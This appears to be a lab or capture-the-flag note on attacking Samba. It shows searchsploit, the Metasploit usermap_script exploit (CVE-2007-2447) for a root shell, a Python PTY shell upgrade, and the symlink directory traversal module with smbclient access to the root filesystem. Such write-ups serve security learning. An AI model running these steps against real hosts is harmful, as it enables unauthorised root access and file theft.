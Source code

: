 ### find an exploit
```
searchsploit samba 3.0.20 
   // with the version we found earlier
```

- There is a (Username map script command execution) available, and also the metasploit version of the same exploit
- Moreover about this vulnerability- https://www.samba.org/samba/security/CVE-2007-2447.html

### exploit
in metasploit:
```
	use exploit/multi/samba/usermap_script
	set options
	run
	// we should gain a shell with root access
```

### Get a better shell
- even tho we are root, we dont have a decent shell
- so we can execute a python one liner to gives us a proper PTY (Pseudo TTY)

```
python -c "import pty; pty.spawn('/bin/sh')"
```

### Samba Symlink Directory Traversal
- This vuln essentially allows an attacker to create a symbolic link to the root (/) partition from a writeable share ultimately allowing For read access to the entire file system outside of the share directory.
- Can be exploited using a modified "smbclient", but metasploit contains a module For exploitation as well.
- pre-requisites, samba server contains a writeable share and widelinks parameter in the smb.conf file is set with a value of "yes"

```
smbmap -H <target ip>
   // determine if you have write access to the shares
```

> after we have determined a writeable share is available

in metasploit:
```
	use auxiliary/admin/smb/samba_symlink_traversal
	set options
	set smbtarget <rootfs> // default
	run
```

// now we can access the share
```
smbclient \\\\<target ip>\\tmp -N
cd rootfs
```
